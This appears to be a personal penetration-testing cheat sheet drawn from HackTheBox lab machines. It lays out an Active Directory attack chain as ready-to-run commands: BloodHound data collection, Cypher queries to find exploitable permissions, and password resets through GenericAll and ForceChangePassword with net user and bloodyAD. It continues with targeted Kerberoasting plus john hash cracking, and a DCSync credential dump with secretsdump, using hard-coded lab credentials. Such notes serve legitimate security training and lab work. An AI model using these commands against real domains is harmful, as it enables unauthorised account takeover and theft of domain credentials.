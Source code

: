 On target:
```
. .\SharpHound.ps1
```
```
Invoke-BloodHound -CollectionMethod All
```
or run remotely:
```
bloodhound-python -c All -dc FOREST.htb.local -gc FOREST.htb.local -ns 10.129.175.196 -d htb.local -u svc-alfresco -p 's3rvice'
```
or
```
bloodhound-python -c ALL -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -d support.htb -ns 10.10.11.174
```
or use nxc:
```
nxc ldap administrator.htb -u Olivia -p ichliebedich --bloodhound --collection All --dns-tcp --dns-server 10.10.11.42
```

 then start neo4j
- `sudo neo4j console`
- neo4j:(kali pw)
- `bloodhound`
- run command from another terminal tab
- clear database
- upload Data

#### Queries
```
MATCH (m:Computer) RETURN m
```
- see computers
```
MATCH (m:User) RETURN m
```
- see users
- marked any users with creds as "owned"
	- check owned users for OUTBOUND OBJECT CONTROL > First Degree Object Control
		- Looking for GenericAll, GenericWrite, ForceChangePassword
			- create potential attack path (ex: olivia has GenericAll over Michael & Michael has ForceChangePassword over Benjamin = probably worth checking out)
#### If user (Olivia) has GenericAll permissions over another user (Michael)
```
net user Michael Password123
```
- Change benjamin's password if currently owned user has GenericAll over benjamin
	- then login as that user and spray all open services with new creds
- can also use bloodyAD command below (if no shell)
#### If user (Michael) has ForceChangePassword over another user (Benjamin)
```
bloodyAD -u "Michael" -p "Password123" -d "Administrator.htb" --host "10.10.11.42" set password "Benjamin" "12345678"
```
- using succesfully authenticated creds of michael to reset Benjamin's password
#### If user (Emily) has GenericWrite permissions over another user (Ethan)
- make sure IP is in `/etc/hosts` with all subdomains
```
sudo ntpdate administrator.htb
```
- syncs timezone for kerberos
- may need to run multiple times if below command fails:
```
targetedKerberoast -u "emily" -p "UXLCI5iETUsIBoFVTj8yQFKoHjXmb" -d "Administrator.htb" --dc-ip 10.10.11.42
```
- running this command with Emily will display the hash for Ethan
	- run john to crack the hash, then use pw below for secretsdump command
#### If user (Ethan) has DCsync over domain (dc.administrator.htb)
```
secretsdump.py "Administrator.htb/ethan:limpbizkit"@"dc.Administrator.htb"
```


